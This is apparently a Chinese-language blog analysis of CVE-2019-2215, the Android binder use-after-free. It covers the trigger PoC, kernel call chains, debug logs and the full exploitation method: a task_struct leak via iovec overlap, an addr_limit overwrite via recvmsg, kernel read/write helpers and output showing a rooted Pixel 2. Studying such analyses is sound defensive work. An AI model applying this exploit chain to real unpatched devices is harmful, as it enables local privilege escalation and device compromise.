





CVE-2019-2215
背景
该漏洞由Google公司的Project Zero小组于2017年末发现，2018年初修复了该漏洞，但2019年9被Google公司的分析小组（TAG）发现较新的android上依然存在该漏洞并确认已应用在实际攻击中。并分配CVE编号CVE-2019-2215。
漏洞成因
前置知识
select函数主要用来监视文件描述符的变化情况，多用于实现非阻塞socket。
poll函数和select实现的功能差不多，但poll效率更高，作用是把当前的文件描述符挂到等待队列。在2.5.44版本后，poll被epoll取代。
epoll机制是Linux内核为了处理大批量文件描述符而作了改进的poll，它显著提高了程序在大量并发连接中只有少量活跃的情况下cpu的利用率。
epoll相关的系统调用如下：
1 2 3 4
| epoll_create:用来创建一个epoll文件描述符。 epoll_ctl:用来添加/修改/删除需要侦听的文件描述符。 epoll_wait:接受发生在被监听的描述符上的，用户感兴趣的IO事假。 close：关闭epoll文件描述符。
|
epoll_ctl函数的控制码如下：
1 2 3
| EPOLL_CTL_ADD:在epoll实例上注册目标文件描述符fd。 EPOLL_CTL_MOD:更改与目标文件描述符fd相关的事件。 EPOLL_CTL_DEL:从epoll实例中删除目标文件描述符fd。
|
漏洞描述
首先我们来看下该漏洞的描述，Android内核的binder驱动中的释放后重引用漏洞。成功利用该漏洞可实现本地权限升级。漏洞成因是我们通过epool_ctl选项EPOLL_CTL_ADD监听binder描述符时，会触发底层函数binder_poll分配一个binder_thread结构体并通过poll_wait函数把binder_thread结构体中的wait元素的地址添加到epoll机制的等待队列中。当别的线程使用BINDER_THREAD_EXIT选项退出binder句柄时，底层函数会去释放掉前面创建的binder_thread结构体的内存，但并不会从相应的等待队列中删除对binder_thread->wait的引用，导致程序退出时epoll清理代码使用binder_thread->wait元素时由于binder_thread结构体已经被释放而导致释放后重引用。
Poc
下面是作者给出的poc
1 2 3 4 5 6 7 8 9 10 11 12 13 14
| #include <fcntl.h> #include <sys/epoll.h> #include <sys/ioctl.h> #include <unistd.h> #define BINDER_THREAD_EXIT 0x40046208ul int main(){ int fd, epfd; struct epoll_event event = { .events = EPOLLIN }; fd = open("/dev/binder0", O_RDONLY); epfd = epoll_create(1000); epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event); ioctl(fd, BINDER_THREAD_EXIT, NULL); }
|
漏洞原理
大概了解了该漏洞的原理之后，我们来具体分析一下该漏洞，原理挺简单，搞懂UAF我们需要明白3个问题，内存在哪申请，内存在哪释放以及内存在哪重引用。搞清楚这三个问题那么我们也就算搞明白了这个漏洞了。
内存的申请
先来看内存的申请，触发链如下：
epoll_ctl:EPOLL_CTL_ADD -> ep_insert -> ep_item_poll -> binder_poll -> binder_get_thread
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59
| static unsigned int binder_poll(struct file *filp, struct poll_table_struct *wait){ struct binder_proc *proc = filp->private_data; struct binder_thread *thread = NULL; bool wait_for_proc_work; thread = binder_get_thread(proc); if (!thread) return POLLERR; binder_inner_proc_lock(thread->proc); thread->looper |= BINDER_LOOPER_STATE_POLL; wait_for_proc_work = binder_available_for_proc_work_ilocked(thread); binder_inner_proc_unlock(thread->proc); poll_wait(filp, &thread->wait, wait); if (binder_has_work(thread, wait_for_proc_work)) return POLLIN; return 0; } static struct binder_thread *binder_get_thread(struct binder_proc *proc){ struct binder_thread *thread; struct binder_thread *new_thread; binder_inner_proc_lock(proc); thread = binder_get_thread_ilocked(proc, NULL); binder_inner_proc_unlock(proc); if (!thread) { new_thread = kzalloc(sizeof(*thread), GFP_KERNEL); if (new_thread == NULL) return NULL; binder_inner_proc_lock(proc); thread = binder_get_thread_ilocked(proc, new_thread); binder_inner_proc_unlock(proc); if (thread != new_thread) kfree(new_thread); } return thread; } poll_wait中的回调函数 static void ep_ptable_queue_proc(struct file *file, wait_queue_head_t *whead, poll_table *pt){ struct epitem *epi = ep_item_from_epqueue(pt); struct eppoll_entry *pwq; if (epi->nwait >= 0 && (pwq = kmem_cache_alloc(pwq_cache, GFP_KERNEL))) { init_waitqueue_func_entry(&pwq->wait, ep_poll_callback); pwq->whead = whead; pwq->base = epi; if (epi->event.events & EPOLLEXCLUSIVE) add_wait_queue_exclusive(whead, &pwq->wait); else add_wait_queue(whead, &pwq->wait); list_add_tail(&pwq->llink, &epi->pwqlist); epi->nwait++; } else { epi->nwait = -1; } }
|
当我们在用户态使用epoll_ctl函数并且使用EPOLL_CTL_ADD选项时，则可以触发到内核底层binder_poll函数。该函数首先通过binder_get_thread函数去申请一个binder_thread结构体，获取成功之后通过poll_wait函数把binder_thread结构体的wait成员添加到epoll等待队列中(注意这里的添加操作)，到此内存分配的流程我们分析完了。
涉及到的binder_thread结构体
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24
| struct binder_thread { struct binder_proc *proc; struct rb_node rb_node; struct list_head waiting_thread_node; int pid; int looper; bool looper_need_return; struct binder_transaction *transaction_stack; struct list_head todo; bool process_todo; struct binder_error return_error; struct binder_error reply_error; wait_queue_head_t wait; struct binder_stats stats; atomic_t tmp_ref; bool is_dead; struct task_struct *task; }; struct __wait_queue_head { spinlock_t lock; struct list_head task_list; }; typedef struct __wait_queue_head wait_queue_head_t;
|
然后来看下在何时对binder_thread结构体内存进行的释放，通过binder句柄的ioctl接口传入BINDER_THREAD_EXIT选项即可触发内核对binder_thread的释放：
binder_ioctl:BINDER_THREAD_EXIT -> binder_thread_release -> binder_thread_dec_tmpref -> binder_free_thread -> kfree
1 2 3 4 5 6 7 8
| static void binder_free_thread(struct binder_thread *thread) { BUG_ON(!list_empty(&thread->todo)); binder_stats_deleted(BINDER_STAT_THREAD); binder_proc_dec_tmpref(thread->proc); put_task_struct(thread->task); kfree(thread); }
|
最后再来看一下binder_thread结构体内存在哪做了重引用了：
.release -> ep_eventpoll_release -> ep_free -> ep_unregister_pollwait -> ep_remove_wait_queue -> remove_wait_queue
1 2 3 4 5 6 7 8 9
| static void ep_remove_wait_queue(struct eppoll_entry *pwq) { wait_queue_head_t *whead; rcu_read_lock(); whead = smp_load_acquire(&pwq->whead); if (whead) remove_wait_queue(whead, &pwq->wait); rcu_read_unlock(); }
|
在对epoll句柄做release操作时会调用到ep_eventpoll_release函数，底层会执行到ep_remove_wait_queue函数，函数内通过pwq->whead获取到前面的binder_thread结构体的wait成员，然后执行链表删除操作。因为前面已经释放了binder_thread结构体，所以这里的wait引用就是释放后重引用。
后来通过对内核代码的分析知道我们也可以通过epoll_ctl函数的EPOLL_CTL_DEL选项去主动触发ep_eventpoll_release的调用触发释放后重引用，调用链如下。
epoll_ctl:EPOLL_CTL_DEL -> ep_remove -> ep_unregister_pollwait -> ep_remove_wait_queue -> remove_wait_queue
从等待队列中删除一个节点的流程如下：
1 2 3 4 5 6 7
| <4>[ 134.391555] c3 2145 <4>[ 134.391555] c3 2145 -1-[cve_2215_poc]- binder_poll- &thread->wait:0xffffffebc7020020 <4>[ 134.391555] c3 2145 <4>[ 134.391555] c3 2145 -1-[cve_2215_poc]- remove_wait_queue- q:0xffffffebc7020020 q->lock:0x30002 q->task_list:0xffffffebc7020028 q->task_list.next:0xffffffeb3516be60 q->task_list.prev:0xffffffeb3516be60 (q+0x18):0xffffffebb923b800 <4>[ 136.605430] c3 2145 -2-[cve_2215_poc]- remove_wait_queue- wait->task_list:0xffffffeb3516be60 task_list.next:0xffffffebc7020028 task_list.prev:0xffffffebc7020028 <4>[ 136.608541] c3 2145 -3-[cve_2215_poc]- remove_wait_queue- q:0xffffffebc7020020 q->lock:0x30002 q->task_list:0xffffffebc7020028 q->task_list.next:0xffffffebc7020028 q->task_list.prev:0xffffffebc7020028 (q+0x18):0xffffffebb923b800 <4>[ 136.609702] c3 2145 -4-[cve_2215_poc]- remove_wait_queue- wait->task_list:0xffffffeb3516be60 task_list.next:0xdead000000000100 task_list.prev:0xdead000000000200
|
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22
| void remove_wait_queue(wait_queue_head_t *q, wait_queue_t *wait){ unsigned long flags; spin_lock_irqsave(&q->lock, flags); __remove_wait_queue(q, wait); spin_unlock_irqrestore(&q->lock, flags); } static inline void __remove_wait_queue(wait_queue_head_t *head, wait_queue_t *old){ list_del(&old->task_list); } static inline void list_del(struct list_head *entry){ __list_del(entry->prev, entry->next); entry->next = LIST_POISON1; entry->prev = LIST_POISON2; } void __list_del(struct list_head *prev, struct list_head *next){ next->prev = prev; prev->next = next; }
|
总结一下触发流程：binder_thread申请->binder_thread释放->binder_thread->wait重引用
补丁用意
linux补丁官网上在2017年12月份就修复了，但是怎么android又报了出来呢？
Syzboot日志
https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/drivers/android/binder.c?h=linux-4.14.y&id=7a3cee43e935b9d526ad07f20bf005ba7e74d05b
如果这个线程使用了poll，确保我们从任何epoll的数据结构中移除带有POLLFREE的等待队列，waitqueue_active是安全的，因为我们要保持内锁在这里使用。
漏洞利用
漏洞利用思路
下面参考着文末贴出的Exp分析一下该漏洞的利用思路，利用分两步：
1.通过漏洞获取当前进程的task_struct地址。
2.利用前面获取的task_struct计算出进程limit的值，通过漏洞修改进程limit的值，实现内核的任意读写。
泄漏task_struct地址
内核地址读，思路：首先利用BINDER_THREAD_EXIT选项触发binder_thread结构体的释放，接着创建一对pipe读写句柄，利用聚合写writev函数对pipefd[1]进行写操作，写入一组我们准备好的iovec数组到内核态去占位前面释放的binder_thread结构体。因为其中有两个iovec结构体刚好能与释放的binder_thread->wait元素重合，所以使用epoll_ctl的EPOLL_CTL_DEL选项触发重引用的链表删除操作时，刚好可以把重合的第二个iovec结构体的iovec.iov_base的值改为binder_thread->wait.task_list的地址。此时用户态通过read去读取数据时，实际读取的就是iovec.base指向的内存，这样就可以从binder_thread->wait.task_list开始读取。读取的长度由iovec->iov_len控制，该长度由我们可控，这就实现了内核读的效果。
1 2 3 4
| struct iovec{ void __user *iov_base; __kernel_size_t iov_len; };
|
来看一下具体实现：

1 2 3 4 5 6 7
| <4>[ 188.781784] c3 4058 <4>[ 188.781784] c3 4058 -1-[cve_2215_poc]- binder_poll- &thread->wait:0xffffffd7b7a3dea0 <4>[ 188.781784] c3 4058 <4>[ 188.781784] c3 4058 -1-[cve_2215_poc]- remove_wait_queue- q:0xffffffd7b7a3dea0 q->lock:0x100010000 q->task_list:0xffffffd7b7a3dea8 q->task_list.next:0x1000 q->task_list.prev:0xdeadbeef (q+0x18):0x1000 <4>[ 190.809424] c3 4058 -2-[cve_2215_poc]- remove_wait_queue- wait->task_list:0xffffffd86c38ed20 task_list.next:0xffffffd7b7a3dea8 task_list.prev:0xffffffd7b7a3dea8 <4>[ 190.809471] c3 4058 -3-[cve_2215_poc]- remove_wait_queue- q:0xffffffd7b7a3dea0 q->lock:0x100010000 q->task_list:0xffffffd7b7a3dea8 q->task_list.next:0xffffffd7b7a3dea8 q->task_list.prev:0xffffffd7b7a3dea8 (q+0x18):0x1000 <4>[ 190.809498] c3 4058 -4-[cve_2215_poc]- remove_wait_queue- wait->task_list:0xffffffd86c38ed20 task_list.next:0xdead000000000100 task_list.prev:0xdead000000000200
|

以上是调试数据，可以看到当执行到remove_wait_queue的时候，参数q指向的task_list地址为0xffffffd7b7a3dea0，正好就是binder_poll中thread->wait的首地址，并且根据q->lock的内容为0x100010000可以确定我们用户态数据的占位是成功的，参数wait指向的task_list地址为0xffffffd86c38ed20，wait->task_list.next与wait->task_list.next都指向q->task_list，因为这task_list链表只有两个节点，所以通过链表删除操作之后则把q->task_list.next和q->task_list.prev都改为了0xffffffd7b7a3dea8(q->task_list的地址)，而task_list.next，task_list.prev分别对应上与binder_thread->wait重叠的第一个iovec的iov_len元素以及第二个iovec的iov_base，最后当用户态read的时候就会从第二个iovec的iov_base(0xffffffd7b7a3dea8)开始读iovec.iov_len的长度到用户态内存，这样我们就成功泄漏了内核数据，泄漏的数据偏移0xe8(pxiel2上面)刚好就是当前进程的task_struct结构体的地址。
修改limit值
内核地址任意写，思路：通过上一步的内核读有了当前进程的task结构体那么下一步怎么提权呢？此时还需要构造一个内核写，通过内核写去修改进程limit的值，这样就能实现内核任意地址读写的效果。
首先还是需要先触发binder_thread结构体的释放。不过这次是通过socketpair函数创建一对匿名已连接套接字，通过recvmsg函数对socks[0]做接收操作，传入的参数2是一个msghdr结构体，msghdr.msg_iov指向的是我们准备好的iovec数组，让这组iovec数组去内核中占位前面释放的binder_thread结构体。iovec数组中有两个iovec刚好能与binder_thread->wait元素重合，然后使用epoll_ctl的EPOLL_CTL_DEL选项触发重引用的链表删除操作，把重合的第二个iovec结构体的iovec.iov_base的值改为binder_thread->wait.task_list的地址，再利用用户态调用write函数把需要覆盖的数据写入到socks[1]。当socks[1]中有数据的时候，recvmsg则把读取到的数据写入到iovec数组的每个iovec结构体的iov_base指向的内存，因为前面已经利用漏洞把重合的第二个iovec结构体的iovec.iov_base修改成了binder_thread->wait.task_list的地址，所以这里会直接把伪造数据写入到binder_thread->wait.task_list的地址，从而实现对指定内核地址写的操作。
1 2 3 4 5 6 7 8 9
| struct msghdr { void *msg_name; int msg_namelen; struct iovec *msg_iov; __kernel_size_t msg_iovlen; void *msg_control; __kernel_size_t msg_controllen; unsigned int msg_flags; };
|
具体实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63
| <4>[ 1150.931303] c3 4164 -1-[cve_2215_poc]- binder_poll- &thread->wait:0xffffffcc03dfeca0 <4>[ 1150.931303] c3 4164 -1-[cve_2215_poc]- unix_stream_read_generic->>>> <4>[ 1150.932519] c3 4164 -1-[cve_2215_poc]- skb_copy_datagram_iter->>>> <4>[ 1150.932593] c3 4164 <4>[ 1150.932593] c3 4164 -1-[cve_2215_poc]- copy_to_iter- addr:58 bytes:0x1 i->count:0x31 i->iov:0xffffffcc03dfec00 i->nr_segs:0x19 <4>[ 1150.932650] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:0:58 <4>[ 1150.932677] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1:f6 <4>[ 1152.937025] c3 4164 <4>[ 1152.937025] c3 4164 -1-[cve_2215_poc]- skb_copy_datagram_iter->>>> <4>[ 1152.937149] c3 4164 <4>[ 1152.937149] c3 4164 -1-[cve_2215_poc]- copy_to_iter- addr:1 bytes:0x30 i->count:0x30 i->iov:0xffffffcc03dfecb0 i->nr_segs:0xe <4>[ 1152.937207] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:0:1 <4>[ 1152.937236] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1:0 <4>[ 1152.937263] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2:0 <4>[ 1152.937291] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:3:0 <4>[ 1152.937318] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:4:0 <4>[ 1152.937345] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:5:0 <4>[ 1152.937372] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:6:0 <4>[ 1152.937399] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:7:0 <4>[ 1152.937427] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:8:ef <4>[ 1152.937456] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:9:be <4>[ 1152.937484] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:a:ad <4>[ 1152.937512] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:b:de <4>[ 1152.937539] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:c:0 <4>[ 1152.937567] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:d:0 <4>[ 1152.937595] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:e:0 <4>[ 1152.937622] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:f:0 <4>[ 1152.937649] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:10:28 <4>[ 1152.937678] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:11:0 <4>[ 1152.937706] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:12:0 <4>[ 1152.937733] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:13:0 <4>[ 1152.937761] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:14:0 <4>[ 1152.937789] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:15:0 <4>[ 1152.937817] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:16:0 <4>[ 1152.937845] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:17:0 <4>[ 1152.937873] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:18:8 <4>[ 1152.937901] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:19:2a <4>[ 1152.937928] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1a:e4 <4>[ 1152.937955] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1b:a9 <4>[ 1152.937983] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1c:cc <4>[ 1152.938010] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1d:ff <4>[ 1152.938038] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1e:ff <4>[ 1152.938065] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:1f:ff <4>[ 1152.938092] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:20:8 <4>[ 1152.938120] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:21:0 <4>[ 1152.938147] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:22:0 <4>[ 1152.938176] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:23:0 <4>[ 1152.938203] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:24:0 <4>[ 1152.938231] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:25:0 <4>[ 1152.938258] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:26:0 <4>[ 1152.938285] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:27:0 <4>[ 1152.938312] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:28:fe <4>[ 1152.938340] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:29:ff <4>[ 1152.938368] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2a:ff <4>[ 1152.938396] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2b:ff <4>[ 1152.938424] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2c:ff <4>[ 1152.938451] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2d:ff <4>[ 1152.938479] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2e:ff <4>[ 1152.938507] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:2f:ff <4>[ 1152.938534] c3 4164 -2-[cve_2215_poc]- copy_to_iter- addr:30:0 <4>[ 1152.938559] c3 4164 ^C 130|walleye:/ #
|
以上为调试信息，通过日志可以看到，内核一共调用了两次skb_copy_datagram_iter函数，该函数是把通过套接字接收到的数据写到msghdr.msg_iov指向的iovec结构体数组的iov_base元素指向的内存中，属于recvmsg的底层函数。

第一次是把’X’(0x58)写到地址0xffffffcc03dfeca0中的指针指向的内存中。
第二次则比较精巧，共写0x30个字节的数据，但分两次写。首先取0xffffffcc03dfecb0中的值并把取得的指针用作写入地址写入0x28(0x8+20x10)个字节的数据。这里的0xffffffcc03dfecb0刚好是binder_thread->wait.task_list.prev的地址，因为漏洞的原因task_list.prev的值被修改为了task_list地址(0xffffffcc03dfeca8)，这就相当于对binder_thread->wait.task_list做写操作，写入的数据如上所示(用户态写入的伪造数据)。因为只写0x28(0x8+20x10)个字节，所以末尾的0xfffffffffffffffe并不会在这次写入，这次覆盖只是为了去把我们伪造的内核地址写到0xffffffcc03dfecc0内存中。

第二次写剩下的8个字节，因为0xffffffcc03dfecc0也属于一个iov_base，并且0xfffffffffffffffe还没开始写，所以最后的0xfffffffffffffffe就被写到前面覆盖的内核地址指向的内存中，因为这里使用的内核地址指向的是进程limit，所以实现了对进程limit的修改。
这里的写操作还是挺巧妙的，不得不佩服作者。
1 2 3 4
| 日志代码格式 if(!strcmp("cve-xxx-xxx",get_current()->comm)){ ... }
|
内核任意读写
最后我们成功修改当前进程的limit之后就可以通过pipe组合对内核内存任意读写了，有了任意读写则可以修改关键结构体达到提权的效果。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16
| int kernel_rw_pipe[2]; void kernel_write(unsigned long kaddr, void *buf, unsigned long len) { errno = 0; if (len > 0x1000) errx(1, "kernel writes over PAGE_SIZE are messy, tried 0x%lx", len); if (write(kernel_rw_pipe[1], buf, len) != len) err(1, "kernel_write failed to load userspace buffer"); if (read(kernel_rw_pipe[0], (void*)kaddr, len) != len) err(1, "kernel_write failed to overwrite kernel memory"); } void kernel_read(unsigned long kaddr, void *buf, unsigned long len) { errno = 0; if (len > 0x1000) errx(1, "kernel writes over PAGE_SIZE are messy, tried 0x%lx", len); if (write(kernel_rw_pipe[1], (void*)kaddr, len) != len) err(1, "kernel_read failed to read kernel memory"); if (read(kernel_rw_pipe[0], buf, len) != len) err(1, "kernel_read failed to write out to userspace"); }
|
Poc测试
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23
| walleye:/data/local/tmp $ uname -a Linux localhost 4.4.116-gbcd0ecccd040-dirty #27 SMP PREEMPT Fri Jun 28 20:34:56 CST 2019 aarch64 walleye:/data/local/tmp $ ./CVE-2019-2215 Starting POC CHILD: Doing EPOLL_CTL_DEL. CHILD: Finished EPOLL_CTL_DEL. CHILD: Finished write to FIFO. writev() returns 0x2000 PARENT: Finished calling READV current_ptr == 0xffffffd790a9f000 CHILD: Doing EPOLL_CTL_DEL. CHILD: Finished EPOLL_CTL_DEL. recvmsg() returns 49, expected 49 should have stable kernel R/W now current->mm == 0xffffffd7b358c780 current->mm->user_ns == 0xffffff9ae6daf1c8 kernel base is 0xffffff9ae4c80000 &init_task == 0xffffff9ae6da57d0 init_task.cred == 0xffffff9ae6db0a08 current->cred == 0xffffffd7ac1bc0c0 walleye:/data/local/tmp $ uname -a Linux localhost 4.4.116-gbcd0ecccd040-dirty EXPLOITED KERNEL aarch64 walleye:/data/local/tmp $
|
总结思考
最后总结一下本次的UAF漏洞模型，动态申请的结构体变量的引用被添加到链表中，但在释放该结构体内存时并没有从链表中删除该变量的引用，导致利用该节点时出现释放后重引用的问题。一般这种链表拆卸漏洞最有可能出现内核地址任意读写漏洞。
申请对象内存->添加到链表->释放内存->通过链表访问对象
时间线
1 2 3
| 2017-12-12 通过syzkaller发现该漏洞 2018-02-03 Linux修复该漏洞 2019-09-26 Google公司Project Zero小组发现并提交漏洞
|
相关资料
公开链接
补丁
Exploit
RootDemo
RootDemo